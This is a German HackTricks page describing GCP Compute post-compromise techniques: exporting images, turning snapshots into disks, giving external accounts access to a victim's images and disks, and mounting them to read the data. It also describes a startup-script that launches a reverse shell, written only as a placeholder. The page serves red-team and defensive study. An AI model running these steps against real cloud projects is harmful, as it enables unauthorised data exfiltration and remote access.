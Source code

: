 # GCP - Compute Nach der Kompromittierung

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerke) siehe:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportieren & Lokale Überprüfung von Images

Dies würde einem Angreifer ermöglichen, **auf die Daten zuzugreifen, die sich bereits in vorhandenen Images befinden**, oder **neue Images von laufenden VMs zu erstellen** und auf ihre Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Image in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl einzuhängen:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Vor der Durchführung dieser Aktion benötigt der Angreifer möglicherweise Berechtigungen über den Speicherbucket und sicherlich **Berechtigungen über cloudbuild**, da es sich um den **Dienst** handelt, der gebeten wird, den Export durchzuführen. Darüber hinaus benötigen der cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` und der compute SA privilegierte Berechtigungen.

Der cloudbuild SA benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Snapshots & Disks lokal exportieren und überprüfen

Es ist nicht möglich, Snapshots und Disks direkt zu exportieren, aber es ist möglich, **einen Snapshot in einen Disk, einen Disk in ein Image zu transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspektion eines Bildes zur Erstellung einer VM

Mit dem Ziel, auf die **in einem Bild gespeicherten Daten** oder innerhalb einer **laufenden VM** zuzugreifen, von der aus ein Angreifer **ein Bild erstellt hat**, ist es möglich, einem externen Konto Zugriff auf das Bild zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und erstellen Sie dann eine neue VM daraus:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff auf das Image geben konnten, könnten Sie eine VM mithilfe dieses Images im Projekt des Opfers starten und **die Metadaten so konfigurieren, dass ein Reverse-Shell ausgeführt wird**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Überprüfen eines Snapshots/Datenträgers durch Anhängen an eine VM

Mit dem Ziel, auf die **in einem Datenträger oder einem Snapshot gespeicherten Daten zuzugreifen, könnten Sie den Snapshot in einen Datenträger umwandeln, einen Datenträger in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten einem **externen Konto Zugriff gewähren** auf den Datenträger (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff auf den Snapshot oder erstellen Sie einen Datenträger daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Fügen Sie die Festplatte** einer Instanz hinzu:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montieren Sie die Festplatte innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANZ_NAME] --zone [ZONE]
```
2. **Identifizieren Sie die Festplatte**: Sobald Sie sich in der VM befinden, identifizieren Sie die neue Festplatte, indem Sie die Festplattengeräte auflisten. Normalerweise finden Sie sie als `/dev/sdb`, `/dev/sdc`, usw.
3. **Formatieren und Mounten Sie die Festplatte** (wenn es sich um eine neue oder Rohfestplatte handelt):
*   Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mounten Sie die Festplatte:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinem externen Projekt Zugriff auf den Snapshot oder die Festplatte geben können**, müssen Sie möglicherweise diese Aktionen innerhalb einer Instanz im selben Projekt wie der Snapshot/Festplatte durchführen.
